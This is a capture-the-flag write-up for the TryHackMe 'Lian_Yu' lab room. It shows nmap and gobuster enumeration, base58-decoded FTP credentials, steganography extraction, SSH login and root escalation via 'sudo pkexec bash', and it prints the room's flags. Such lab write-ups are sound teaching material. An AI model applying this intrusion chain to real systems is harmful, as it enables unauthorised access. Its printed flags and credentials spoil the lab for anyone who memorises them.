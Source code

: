 ```yaml
---
title: TryHackMe - Lian_Yu Writeup
description: My writeup on Lian_Yu box.
categories:
 - tryhackme
tags: tryhackme
---
```



A really easy box, let's pwn it!

You can find the machine there > [Lian_Yu](https://tryhackme.com/room/lianyu){:target="_blank"}

As always let's start with a nmap scan.

```bash
$ ip=10.10.54.254
$ nmap -sC -sV -oN nmap.txt $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-29 00:31 EEST
Nmap scan report for 10.10.54.254 (10.10.54.254)
Host is up (0.13s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.2
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey: 
|   1024 56:50:bd:11:ef:d4:ac:56:32:c3:ee:73:3e:de:87:f4 (DSA)
|   2048 39:6f:3a:9c:b6:2d:ad:0c:d8:6d:be:77:13:07:25:d6 (RSA)
|   256 a6:69:96:d7:6d:61:27:96:7e:bb:9f:83:60:1b:52:12 (ECDSA)
|_  256 3f:43:76:75:a8:5a:a6:cd:33:b0:66:42:04:91:fe:a0 (ED25519)
80/tcp  open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Purgatory
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          36004/tcp   status
|   100024  1          36201/udp6  status
|   100024  1          47088/tcp6  status
|_  100024  1          49987/udp   status
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's enumerate port 80, by running `gobuster`.

```bash
$ gobuster dir -q -u http://$ip/ -w ~/Documents/wordlists/SecLists/Discovery/Web-Content/raft-large-directories.txt -o gobuster1.txt
/server-status (Status: 403)
/island (Status: 301)
```

Great, when we visit the page and we press "CTRL + A" we can see this :

![](https://i.ibb.co/CHRrSww/Screenshot-6.png)

Probably a username (vigilante) ? Let's save it.

After if we check the hint on tryhackme says directory in numbers & has 4 bytes. So let's generate a custom wordlist with python and run gobuster with it.

```bash
$ python -c 'for i in range(999,9999): print i' > numwordlist.txt
$ gobuster dir -q -u http://$ip/island -w numwordlist.txt -o gobuster2.txt
/2100 (Status: 301)
```

Perfect under this directory we can see this in source code :

`<!-- you can avail your .ticket here but how?   -->`

Let's search for files with `.ticket` extension.

```bash
$ gobuster dir -q -u http://$ip/island/2100/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x ticket -o gobuster3.txt
/green_arrow.ticket (Status: 200)
```

Perfect, we can see this string in webpage : `RTy8yhBQdscX` it's a base58 string.

Let's decode it :

```bash
$ sudo apt-get install base58 -y 
$ echo RTy8yhBQdscX | base58 --decode
!#th3h00d
```

So now we have some creds -> `vigilante:!#th3h00d`, let's use them for FTP.

```bash
$ ftp $ip
Connected to 10.10.54.254.
220 (vsFTPd 3.0.2)
Name (10.10.54.254:root): vigilante
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 1001     1001         4096 May 05 11:10 .
drwxr-xr-x    4 0        0            4096 May 01 05:38 ..
-rw-------    1 1001     1001           44 May 01 07:13 .bash_history
-rw-r--r--    1 1001     1001          220 May 01 05:38 .bash_logout
-rw-r--r--    1 1001     1001         3515 May 01 05:38 .bashrc
-rw-r--r--    1 0        0            2483 May 01 07:07 .other_user
-rw-r--r--    1 1001     1001          675 May 01 05:38 .profile
-rw-r--r--    1 0        0          511720 May 01 03:26 Leave_me_alone.png
-rw-r--r--    1 0        0          549924 May 05 11:10 Queen's_Gambit.png
-rw-r--r--    1 0        0          191026 May 01 03:25 aa.jpg
226 Directory send OK.
ftp> 
```
Let's download the images + `.other_user` file.

```bash
ftp> get Leave_me_alone.png
local: Leave_me_alone.png remote: Leave_me_alone.png
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for Leave_me_alone.png (511720 bytes).
226 Transfer complete.
511720 bytes received in 5.93 secs (84.2375 kB/s)
ftp> get Queen's_Gambit.png
local: Queen's_Gambit.png remote: Queen's_Gambit.png
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for Queen's_Gambit.png (549924 bytes).
226 Transfer complete.
549924 bytes received in 3.39 secs (158.5372 kB/s)
ftp> get aa.jpg
local: aa.jpg remote: aa.jpg
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for aa.jpg (191026 bytes).
226 Transfer complete.
191026 bytes received in 1.08 secs (173.1021 kB/s)
ftp> get .other_user
local: .other_user remote: .other_user
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for .other_user (2483 bytes).
226 Transfer complete.
2483 bytes received in 0.00 secs (637.4355 kB/s)
```

File `Leave_me_alone.png` seems broken.

```bash
$ file Leave_me_alone.png 
Leave_me_alone.png: data
```

Let's check the magic bytes of it.

```bash
$ xxd -p Leave_me_alone.png | head -1
58456fae0a0d1a0a0000000d494844520000034d000001db080600000017
```

Isnt `.png` one, let's add the `.png` one.

`89 50 4E 47 0D 0A 1A 0A`

Now we have a `.png` file.

```bash
$ file Leave_me_alone.png 
Leave_me_alone.png: PNG image data, 845 x 475, 8-bit/color RGBA, non-interlaced
```

And gives us the `password` for the steghide. `password -> password` :P

```bash
$ steghide extract -sf aa.jpg 
Enter passphrase: 
wrote extracted data to "ss.zip".
$ unzip ss.zip 
Archive:  ss.zip
  inflating: passwd.txt              
  inflating: shado                   
$ cat shado 
M3tahuman
```

Great let's check the `.other_user` file now. Gives us this name `Slade` so now we can use them for SSH.

```bash
$ ssh slade@$ip
slade@10.10.54.254's password: 
slade@LianYu:~$ 
```

We're in, let's check `sudo -l` as always.

```bash
slade@LianYu:~$ sudo -l
[sudo] password for slade: 
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
```

We can run `pkexec` as root.

`pkexec` -> We can execute a command as another user.

So let's do it.

```bash
slade@LianYu:~$ sudo pkexec bash
root@LianYu:~# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```

Let's read the flags now.

```bash
root@LianYu:~# cat /root/root.txt
                          Mission accomplished



You are injected me with Mirakuru:) ---> Now slade Will become DEATHSTROKE. 



THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}
									      --DEATHSTROKE

Let me know your comments about this machine :)
I will be available @twitter @User6825

root@LianYu:~# cat /home/slade/user.txt
THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}
			--Felicity Smoak
```

See you!
